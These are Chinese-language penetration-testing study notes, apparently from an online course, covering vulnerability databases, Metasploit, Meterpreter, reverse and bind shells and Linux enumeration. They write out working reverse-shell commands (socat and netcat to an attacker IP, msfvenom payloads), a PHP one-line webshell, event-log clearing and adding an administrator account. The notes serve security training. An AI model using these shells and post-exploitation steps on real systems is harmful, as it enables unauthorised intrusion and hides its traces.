

## Vulnerability Research
### 漏洞101
- 漏洞介绍
  - 系统或应用程序的设计、实施或行为中的弱点或缺陷
  - 主要类型
    1. 操作系统。存在于操作系统中，通常导致提权。
    2. 基于配置。
    3. 弱口令或默认。
    4. 应用逻辑。
    5. 人为因素。
  - 通常对操作系统和应用逻辑进行关注
- 漏洞评分
  - 通用漏洞评分系统( CVSS )
    - 2005年首次推出
    - 评分主要依据
      1. 漏洞利用的难度
      2. 是否存在对此漏洞的利用
      3. 漏洞对 CIA 三要素的影响 
  - 漏洞优先级评级 ( VPR )
    - 基于风险驱动的
- 漏洞数据库
  - [NVD](https://nvd.nist.gov/vuln/full-listing)
  - [Exploit-DB](http://exploit-db.com/)
  - 常见概念
    - Vulnerability(漏洞)
      - 漏洞被定义为系统或应用程序的设计、实现或行为中的弱点或缺陷
    - Exploit
      - 漏洞利用是诸如利用系统或应用程序漏洞的操作或行为
    - Proof of Concept (PoC)	
      - 概念验证是一种经常演示漏洞利用的技术或工具
      - 概念验证经常被用来作为0day、exploit的别名。（通常指并没有充分利用这个漏洞的exploit）
### 漏洞利用
- 自动/手动扫描
  - 漏洞扫描器 Nessus
  - 手动扫描漏洞通常是渗透测试人员在测试单个应用程序或程序时选择的武器。事实上，手动扫描将涉及搜索相同的漏洞并使用与自动扫描类似的技术
  - 殊途同归的是，这两项技术都是测试应用或程序的漏洞
    - Security Misconfigurations(安全配置错误)
    - Broken Access Control	(错误的访问控制)
    - Insecure Deserialization(不安全的反序列化)
    - Injection(注入)
  - [OWASP 框架]()
- 查询手动利用漏洞
  - [Rapid7](https://www.rapid7.com/db/)
  - github
  - Searchsploit
    - Exploit-DB 的离线版本
- 实例
  1. 网站首页，发现版本`Online Book Store 1.0`
  2. Exploit-DB 搜索，发现 RCE 漏洞，下载漏洞利用脚本
  3. 运行脚本
## Metasploit
### Metasploit简介
- 介绍
  - Metasploit有两个版本
    1. Metasploit Pro 商业版
    2. Metasploit Framework
  - Metasploit Framework主要组成
    1. msfconsole 命令行入口
    2. Modules 模块，如 exploits,scanners,payloads
    3. Tools 有助于漏洞研究、漏洞评估或渗透测试的独立工具, 如 msfvenom,pattern_create,pattern_offset
- 主要组件
  - 使用Metasploit Framework时 ,主要与 Metasploit 控制台进行交互.使用 `msfconsole`进入
  - 组件
    1. Auxiliary(辅助): 任何支持辅助模块，如扫描器、爬虫和模糊器
   
        
    2. Encoders(编码器): 允许对漏洞和有效载荷进行编码，以应对基于签名的防病毒策略
       
        
    3. Evasion(规避): 虽然编码器会对有效负载进行编码，但不应将其视为逃避防病毒软件的直接尝试。因为该模块会尝试规避防病毒策略

        
    4. Exploits: 漏洞利用，根据目标系统类型进行统一的分类
   
           
    5. NOP：NOP（No OPeration）什么都不做。在 Intel x86 CPU 系列中以 0x90 表示，之后 CPU 将在一个周期内不执行任何操作。通常用作缓冲区以实现一致的有效负载大小

          
    6. Payloads: 有效载荷是将在目标系统上运行的代码

        
        - 在目标系统上运行命令渗透测试的一个重要的步骤，一个允许您键入可以在目标系统上执行命令的交互式连接可以实现该步骤。这样的交互式命令行称为`shell`。
        - Metasploit 提供了发送不同有效载荷的能力，这些有效载荷可以在目标系统上打开 `shell`
        - 三个不同的目录
          - Singles: 独立的Payload,无需下载额外的组件即可运行,例如 添加用户，运行 notepad.exe 等
          - Stagers: 负责建立 Metasploit 和目标系统的连接通道,是分阶段的,初始 Payload 大小相对较小
          - Stages
        - Singles 和 Stagers的辨认
          - `generic/shell_reverse_tcp`
          - `windows/x64/shell/reverse_tcp`
          - shell`_`reverse_tcp 属于 Singles
          - shell`/`reverse_tcp 属于 Stagers
    7. Post： Post 模块将在上面列出的渗透测试过程的最后阶段，post-exploitation 中很有用

          
- Msfconsole
  - 可像一般shell一样运行命令，如`ls` `clear` `ping` 等，不过不支持重定向 `>`
  - `history`
  - `use exploit/windows/smb/ms17_010_eternalblue`
    - `show options`
    - `show payloads`
    - `info`
  - `search`
    - `search ms17-010`
    - `search type:auxiliary telnet`
- Working with modules
  - `use exploit/windows/smb/ms17_010_eternalblue`
    - `show options`
    - `set rhosts 1.1.1.1` `set rhosts target.txt`
    - 常用参数
      - `RHOSTS`
      - `RPORT`
      - `PAYLOADS`
      - `LHOST`
      - `LPORT`
    - `unset all`
    - `setg rhosts 1.1.1.1` 全局变量
    - `unsetg rhosts 1.1.1.1`

### Metasploit: Exploitation
- 扫描
  - 端口扫描
    - `search portscan`
  - UDP 服务标识
    - `scanner/discovery/udp_sweep`
  - SMB 扫描
    - `smb_enumshares`
    - `smb_version`
  - 引申：SMB 协议工作原理
    1. 客户端发送 SMB negotiate protocol request请求数据报，并列出所支持的所有SMB协议版本

        
        - 0x0202 　　 SMB 2.002
        - 0x0210 　　 SMB 2.1
        - 0x0300 　　 SMB 3.0
        - 0x0302 　　 SMB 3.02
        - 0x02FF 　　 SMB2
    2. 服务器收到请求信息后响应请求，并列出希望使用的协议版本。如果没有可使用的协议版本则返回0XFFFFH并结束通信。

        
        - 可以看到服务端希望使用的版本是SMB2.1 
        - 注意:win7默认开启smbv1(只要开启共享服务),但是由于windows的安全机制,版本协商就高不就低,除非客户端版本只有SMBv1或者服务端只有SMBv1
        - 这里就可以利用了:客户端可以恶意把版本设置为只能是SMBv1,这样服务端和客户端协商通过只能用SMBv1
    3. 协议确定后，客户端进程向服务器发起一个用户或共享的认证，这个过程是通过发送session setup request请求数据报实现的。客户端发送一对用户名和密码或一个简单密码到服务器。

        
    4. 服务器通过发送一个Session setup response应答数据报来允许或拒绝本次连接

        
    5. 当客户端和服务器完成了磋商和认证之后，它会发送一个Tree connect rerquest SMB数据报并列出它想访问网络资源的名称　　

        
    6. 服务器会发送一个tree connect response应答数据报以表示此次连接是否被接受或拒绝　　 
     
            
    7. 连接到相应资源后，SMB客户端就能够进行操作

             
- Metasploit 数据库
  - 实际的渗透测试参与可能会有多个目标，Metasploit 具有数据库功能，可简化项目管理并避免在设置参数值时可能出现的混淆
  - 使用 `Postgresql`数据库
    - `systemctl start postgresql`
  - `msfdb init`命令初始化 Metasploit 数据库
  - 在`msfconsole`中使用 `db_status` 确认数据库状态
  - 创建工作区以隔离不同的项目
    - `workspace`
    - `workspace -a ` 创建工作区
    - `workspace -d`  删除工作区
  - Metasploit 数据库启动后，`help` 显示基于数据库的相关命令
    - 例如使用`db_nmap`,所有的结果都将保存在数据库中
    - 扫描完成后，使用`hosts`和`services`可以得到目标系统的相关信息
    - `hosts -R`可以设置 RHOSTS 参数的值
    - `services -S netbios` 检索指定的服务类型
- 漏洞扫描
  - Metasploit 可以快速识别一些 "low hanging fruit" 的关键漏洞。这些漏洞可能会让攻击者在系统上站稳脚跟，在某些情况下，还可以获得高级权限，例如 root 或管理员
  - 漏洞扫描的结果取决于目标扫描的完成度
  - 使用`search`搜索相关服务，查找漏洞
    - `search vnc`
    - `use auxiliary/scanner/vnc/vnc_login`
    - `info`
- Exploitation
  1. `search` 查找合适的 exploit
  2. `show options`
  3. `show payloads`
  4. `set payload`
  5. `exploit`
  - 后台`CTRL+Z` 
  - 中止`CTRL+C`
  - `sessions`
- Msfvenom
  - 用于代替 Msfpayload 和 Msfencode,生成 payload
  - Msfvenom 可以访问 Metasploit 框架中可用的所有 payload
  - Msfvenom 可以以多种不同的格式（PHP、exe、dll、elf 等）和针对多种不同的目标系统（Apple、Windows、Android、Linux 等）创建 payload
  - 举例：生成反向shell
    `msfvenom -p php/reverse_php LHOST=10.0.2.19 LPORT=7777 -f raw > reverse_shell.php`
  
### Metasploit: Meterpreter
- Meterpreter介绍
  - 通过 Meterpreter 与目标操作系统和文件进行交互，并使用 Meterpreter 的专用命令
  - Meterpreter 运行在内存，使用`getpid`获得进程id
  - 使用 `ps` 列出目标系统运行的进程
  - Meterpreter payloads 也分两种， `stagged` 和 `inline`
  - `msfvenom --list payloads | grep meterpreter`
- Meterpreter命令
  - `help` 列出所有命令
  - Core commands (核心命令)
    - `background`
    - `exit`
    - `migrate`
    - `guid` 获取会话 GUID（全局唯一标识符）
    - ...
  - File system commands
    - `cd`
    - `ls`
    - `pwd`
    - `edit`
    - `cat`
    - `rm`
    - `search`
    - `upload`
    - `download`
  - Networking commands
    - `arp`
    - `ifconfig`
    - `netstat`
    - `portfwd` 将本地端口转发到远程服务
    - `route` 查看和修改路由表
  - System commands
    - `clearev` 清除事件日志
    - `execute` 执行命令
    - `getpid` 显示当前进程标识符
    - `getuid` 显示 Meterpreter 正在运行的用户
    - `kill` 
    - `pkill`
    - `ps`
    - `reboot`
    - `shell`
- 后期利用
  - `help`
  - `getuid`
  - `ps`
  - `Migrate`
    - `migrate 716` 迁移到进程716
  - `hashdump` 列出 SAM 数据库的内容
  - `search`
    - `search -f flag2.txt`
  - `shell`
- 实践
  - `sysinfo`

## Privilege Escalation
### What the Shell?
- 工具
  - 我们将使用多种工具来接收反向 shell 和发送绑定 shell。
  - 一般而言，我们需要恶意 shell 代码，以及与生成的 shell 交互的方法。
  - Netcat
  - Socat 更牢固的Netcat
  - Metasploit中的 multi/handler 模块
  - Msfvenom 生成payloads工具
- Shell的类型
  - 反向shell(Reverse shell)
    - 目标连接回攻击者的主机
  - 绑定shell(Bind shell)
    - 指在目标上执行的代码用于启动直接在目标上附加到 shell 的侦听器。然后这将向互联网开放，这意味着您可以连接到代码打开的端口并以这种方式获得远程代码执行。这具有不需要在您自己的网络上进行任何配置的优点，但可能会被保护目标的防火墙阻止。
  - 交互式和非交互式( interactive or non-interactive )
    - 如果使用 Powershell、Bash、Zsh、sh 或任何其他标准 CLI 环境，这些属于交互式shell。这些shell允许您在执行程序后与程序进行交互。例如，采用 SSH 登录提示。
  
      
    - 在非交互式 shell 中，您只能使用不需要用户交互即可正常运行的程序。不幸的是，大多数简单的反向和绑定 shell 都是非交互式的，这会使进一步的利用变得更加棘手。在非交互式 shell 中运行 SSH 时,发现没有任何回应。  
      
      
- Netcat
  - Reverse Shells
    - `nc -lvnp <port-number>`
      - **-l** 监听器
      - **-v** 详细输出
      - **-n** 不解析主机名或使用DNS
      - **-p** 遵循端口规范
  - Bind Shells
    - `nc <target-ip> <chosen-port>`
      - `nc 10.10.10.10 8080`
- 稳定Netcat shell
  - 已经捕获或连接到一个 netcat shell。
  - 默认情况下，这些 shell 非常不稳定。按 Ctrl + C 会断开连接。
  - 它们是非交互式的，并且经常有奇怪的格式错误。
  - 这是因为 netcat shell实际上是在终端内运行的进程，而不是真正的终端本身。
  - 方法一:Python
    - 适用于Linux系统。
    - 分为三步
      - 使用 `python3 -c 'import pty;pty.spawn("/bin/bash")'`,注意python版本；此时我们的 shell 看起来会更漂亮一些，但我们仍然无法使用 tab 自动完成或箭头键，而 Ctrl + C 仍会终止 shell。
      - 使用 `export TERM=xterm`
      - 使用 Ctrl + Z 后台运行Shell，使用`stty raw -echo; fg`
        - `stty raw -echo` 关闭自身终端回显(使用`reset`恢复)
        - `fg` 将后台程序转入前台执行
  
      
  - 方法二：rlwrap
    - `rlwrap nc -lvnp <port>`
    - 在 windows 上可以使用。
  - 方法三：Socat
    - **`python3 -m http.server <port>`**
    - Reverse Shell
      - 本地监听
        - `socat TCP-L:<port> -`
      - 回连
        - `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`
          - **pipes** 强制 powershell 使用Unix风格
        - `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`
    - Bind Shell
      - 远程监听
        - `socat TCP-L:<port> EXEC:powershell.exe`
        - `socat TCP-L<port> EXEC:"bash -li"`
      - 本地连接
        - `socat TCP:<TARGET-IP>:<TARGET-PORT> -`
    - Socat稳定Reverse Shell
      - 本地监听
        - ``socat TCP-L:<port> FILE:`tty`,raw,echo=0 ``
      - 远程回连
        - `socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`
          - **pty**，在目标上分配一个伪终端——稳定过程的一部分
          - **stderr**，确保任何错误消息都显示在 shell 中（通常是非交互式 shell 的问题）
          - **sigint**，将任何 Ctrl + C 命令传递到子进程中，允许我们在 shell 中终止命令
          - **setsid**，在新会话中创建进程
          - **sane**，稳定终端，试图“正常化”它。

      
- Common Shell Payloads
  - [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
  - Linux命令中的重定向(>)和管道(|)
    - 文件描述符
      - Linux的宗旨是一切皆文件，对于进程、IO等等都是通过文件的形式存在，这些文件都通过文件描述符的形式来表示。
      - Linux启动时，最开始会创建init进程，其余的程序都是这个进程的子进程。而init进程默认打开3个文件描述符：
        - 标准输入：standard input(0)
        - 标准输出：standard output(1)
        - 标准错误：standard error(2)
    - 重定向
      - 输出重定向
        - `ls exists.txt no-exists.txt 1 > success.txt 2 > fail.txt`
        - 关闭标准错误信息
          - `ls exists.txt no-exists.txt 2 > /dev/null`
          - `ls exists.txt no-exists.txt 2 > &-`
        - 关闭所有输出
          - `ls exists.txt no-exists.txt 1 > /dev/null 2 > /dev/null`
          - `ls exists.txt no-exists.txt 1 > &- 2 > &-`
          - `ls exists.txt no-exists.txt 2 > &1 1 > /dev/null`
      - 输入重定向
        - `cat > output.txt  < input.txt`
          - 类似于复制
      - 管道
        - `cat test.txt | grep -n 'test'`
- msfvenom
  - msfvenom 是Metasploit框架的一部分，主要用于生成反向和绑定 shell 的代码
  - 标准语法
    - `msfvenom -p <PAYLOAD> <OPTIONS>`
    - 示例
      - `msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`

        
        - -f \<format\>
          - 输出的文件类型，这里是 exe 可执行文件
        - -o \<file\>
          - 输出的文件名称
  - PAYLOAD的命名规则
    - [回顾](https://github.com/MasterandRoot/Learn-THM/blob/main/Jr%20Penetration%20Tester/Vulnerability%20Research.md#metasploit%E7%AE%80%E4%BB%8B)
    - `<OS>/<arch>/<payload>`
      - `linux/x86/shell_reverse_tcp` x86 linux 下的 singles shell
      - `windows/shell_reverse_tcp` 默认x64 windows 下的 singles shell
    - `msfvenom --list payloads` 列出所有有效载荷，可使用 grep 分类
    
      

- multi/handler
  - `exploit -j` 后台运行
  - `sessions <number>` 选择会话到前台
  
    

    

- WebShell
  - “Webshel​​l”是一个通俗术语，指在网络服务器（通常采用PHP或 ASP 等语言）内部运行的脚本，该脚本在服务器上执行代码。本质上，命令是通过 HTML 表单或直接作为 URL 中的参数输入到网页中的，然后由脚本执行，返回结果并写入页面。
  - [上传文件漏洞]()
  - php一句话脚本
    - `<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>`
      - `shell_exec()` 通过shell执行命令，并将输出结果回显
      - `$_GET` 获得 url 中参数的值
- Next step
  - 通过之前的步骤，即使是生成了 稳定Shell 也不是最理想的，它们永远不会像本机shell那样功能齐全。
    - 理想情况下，在Linux系统中，在 `/home/<user>/.ssh` 存储的SSH密钥能帮助实现SSH登录；脏牛漏洞或者可写的`/etc/shadow` `/etc/passwd` 文件也是方式之一。
    - 理想情况下，在windows系统中，有时在注册表中找到正在运行的服务的密码，例如VNC服务器经常将密码以明文形式存储在注册表中；某些版本的FileZilla FTP服务器会将凭据保留在`C:\Program Files\FileZilla Server\FileZilla Server.xml`或`C:\xampp\FileZilla Server\FileZilla Server.xml`的XML文件中。
    - 理想情况下，在windows系统中，您将以SYSTEM用户身份运行Shell，这时只需将自己的账户添加到计算机，然后通过RDP、telnet、winexe等方式登录。语法如下：
      - `net user <username> <password> /add`
      - `net localgroup administrators <username> /add`
- 实践

### Linux Privilege Escalation
- 介绍
  - 从本质上讲，权限升级通常涉及从权限较低的帐户到权限较高的帐户。
  - 从技术上讲，它是利用操作系统或应用程序中的漏洞、设计缺陷或配置监督来获得对通常限制用户访问的资源的未经授权的访问。
- 枚举
  - hostname
    - 返回目标的主机名。通常无意义。
    - 但在某些情况下，它可以提供有关目标系统在企业网络中的角色的信息（例如用于生产 SQL 服务器的 SQL-PROD-01 ）
  - uname -a
    - 打印系统信息。提供有关系统使用的内核的更多详细信息
    - 导致权限升级的潜在内核漏洞时非常有用
  - /proc/version
    - 查看 /proc/version 会提供有关内核版本的信息以及其他数据，例如是否安装了编译器（例如 GCC）
  - /etc/issue 
    - 该文件通常包含一些有关操作系统的信息
  - ps
    - 查看进程。
    - `ps -A` 查看所有正在运行的进程
    - `ps axjf` 进程树 
    - `ps aux` 
      - a 显示所有用户的进程
      - u 显示启动进程的用户
      - x 显示未连接到终端的进程
  - env
    - 环境变量。
      - PATH 变量可能具有编译器或脚本语言，可用于提升权限
  - sudo -l
    - 列出用户可以使用 sudo 运行的所有命令
  - ls
  - id
  - /etc/passwd
    - 引申 /etc/passwd 格式类型
      
      
      
      - `Username` 系统登录时输入的用户名
      - `Password`  密码，存储在`/etc/shadow`中
      - `UID` 用户标识号
      - `GID` 用户组标识号
      - `GECOS` 用户信息，用户的全名或应用程序名称，地址，工作电话号码，电话号码，其他联系信息
      - `Home directory` 用户家目录的绝对路径。它包含用户的配置文件。默认情况下，用户家目录以用户名命名，并创建在 /home 目录下
      - `login shell` 登录 Shell。用户登录Shell程序的绝对路径。这是用户登录系统时启动的 Shell 程序
    - 引申 /etc/shadow 格式类型

      

      - `Username` 用户名。登录系统时输入的用户名。每个用户名在计算机上必须是唯一的字符串。用户名的最大长度限制为32个字符
      - `Encrypted Password` 加密密码，密码使用 \$type\$salt\$hashed 格式。   $type 是密码哈希算法，可能的值：
        - \$1$ – MD5
        - \$2a$ – salt
        - \$2y$ – Eksblowfish
        - \$5$ – SHA-256
        - \$6$ – SHA-512
      - `Last password change` 上次更改密码的日期。从1970年1月1日（纪元日期）开始计算天数
      - `Minimum password age` 修改用户密码之前必须经过的天数。通常将其设置为零，这意味着没有最小密码年龄期限
      - `Maximum password age` 多少天后必须更改用户密码。默认情况下，此数字设置为 99999 
      - `Warning period` 警告周期，也就是闲置期。在密码过期之前，警告用户必须修改密码。用户密码过期后，禁用用户帐户之前的天数。通常，此字段为空
      - `Expiration date` 到期日期。帐户被禁用的日期
      - `Unused` 未使用，该字段被忽略，它保留供将来使用

        ```
        myfreax:$6$zHvrJMa5Y690smbQ$z5zdL...:18009:0:120:7:14::
        · 条目包含用户 myfreax 密码的信息。
        · 密码已使用SHA-512加密，为了更好的可读性，密码已被截断。
        · 密码最后一次更改是在2019年4月23日 18009。
        · 没有密码使用期限的下限。
        · 必须至少每120天更改一次密码。
        · 用户将在密码到期日期的前7天收到警告消息。
        · 如果用户在密码过期14天后仍未尝试登录系统，则该帐户将被禁用。
        · 没有帐户有效期。
        ```
  - history
  - ifconfig
  - netstat
    - `netstat` 已过时，已被 `ss` 和 `ip` 命令取代，但它仍然是检查网络连接的最常用命令
    - 最常用 —— 查找端口占用 
      - `netstat -tunlp`
        - -t 显示TCP端口
        - -u 显示UDP端口
        - -n 显示数字地址而不是解析主机
        - -l 仅显示监听端口
        - -p 显示监听端口的进程PID和名称
        - 例: `netstat -tnlp | grep :22 ` 查看 22 端口的占用
      - `ss -tunlp`
    - 引申 `ip` 
      - [ip命令的用法](http://linux.51yip.com/search/ip)
  - find
    - `find . -name flag1.txt`: 在当前目录下寻找“flag1.txt”文件
    - `find /home -name flag1.txt`: 在 /home 目录下寻找“flag1.txt”文件
    - `find / -type d -name config`: 在 “/” 目录下查找名为 “config” 的目录
    - `find / -type f -perm 0777`: 查找具有777权限的文件（所有用户可读、可写、可执行的文件）
      - 文件权限引申
        - `-rwxrwxrwx`  777
          - r = 4 w = 2 x = 1 
        - SUID `-perm 0777` 0 就是该位置
          - [SUID]()
          - `-rwsr-xr-x`  4755
          - SUID -> 4 
          - SGID-> 2
          - SBIT->1
    - `find / -perm a=x`: 查找所有可执行文件
    - `find /home -user frank`: 在“/home”下查找用户“frank”的所有文件
    - `find / -mtime 10`: 查找最近 10 天内修改过的文件
    - `find / -atime 10`: 查找过去 10 天内访问过的文件
    - `find / -cmin -60`: 查找过去一小时（60 分钟）内更改的文件
    - `find / -amin -60`: 查找过去一小时（60 分钟）内访问的文件
    - `find / -size +50M`: 查找大于50MB的文件
      - 大于100MB的时候容易报错，使用`-type f 2>/dev/null`
    - 3种方式查找可写文件夹
      - `find / -writable -type d 2>/dev/null`：查找全局可写文件夹
      - `find / -perm -222 -type d 2>/dev/null`：查找全局可写文件夹
      - `find / -perm -o w -type d 2>/dev/null`：查找全局可写文件夹
    - `find / -perm -u=s -type f 2>/dev/null`
  - cut
  - grep


